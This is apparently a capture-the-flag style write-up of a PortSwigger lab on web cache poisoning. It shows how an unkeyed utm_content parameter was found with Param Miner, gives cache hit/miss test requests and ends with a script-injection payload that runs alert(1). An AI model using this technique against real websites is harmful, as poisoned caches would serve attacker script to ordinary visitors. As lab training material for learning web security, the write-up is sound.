 # Web cache poisoning via an unkeyed query parameter
# Objective
This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. A user regularly visits this site's home page using Chrome. To solve the lab, poison the cache with a response that executes `alert(1)` in the victim's browser.

# Solution
## Analysis

|![](Images/image-22.png)|
|:--:| 
| *Normal request* |
|![](Images/image-23.png)|
| *Request with extra parameter* |
|![](Images/image-24.png)|
| *Extra parameter is part of cache key* |
|![](Images/image-25.png)|
| *Request with extra parameter* |
|![](Images/image-26.png)|
| *Extra parameter is part of cache key* |


## Exploitation
### Param Miner
Extension Param Miner was used to identified unkeyed GET parameters - `Guess GET parameters` option. `utm_content` parameter was discovered.\
[UTM paramters info](https://www.terminusapp.com/blog/mastering-utm_campaign-utm_medium-and-utm_source-google-analytics/)

Almost all parameters of analyzed website are keyed. The below discovery means that parameter `utm_content` is not part of the cache key. The modification of its value do not create new cache entry. This parameter and its value is reflected to user. In the 4 example requests below parameter `xyz` works as **cache buster**:
```
GET /?xyz=xyz&utm_content=test          --> Miss (New response is cached)
... after 2s
GET /?xyz=xyz&utm_content=test          --> Hit  (Response comes from cache)
... after 2s
GET /?xyz=xyz&utm_content=testtest      --> Hit  (Response comes from cache)
... after 2s
GET /?xyz=abc&utm_content=testtest      --> Miss ('New' response is cached)
```

```
Identified parameter on 0a10000b03f7451b9d6991a500e9006a.web-security-academy.net: utm_content
Found issue: Web Cache Poisoning: Query param blacklist 
Target: https://0a10000b03f7451b9d6991a500e9006a.web-security-academy.net
The application excludes certain parameters from the cache key. This was confirmed by injecting the value 'akzldka' using the utm_content parameter, then replaying the request without the injected value, and confirming it still appears in the response. <br>For further information on this technique, please refer to https://portswigger.net/research/web-cache-entanglement
```

### Final exploit
Payload:
```
GET /?utm_content=xyz'/><script>alert(1)</script>
```
|![](Images/image-27.png)|
|:--:|
| *Web cache poisoning (for Chrome's User-Agent)* |
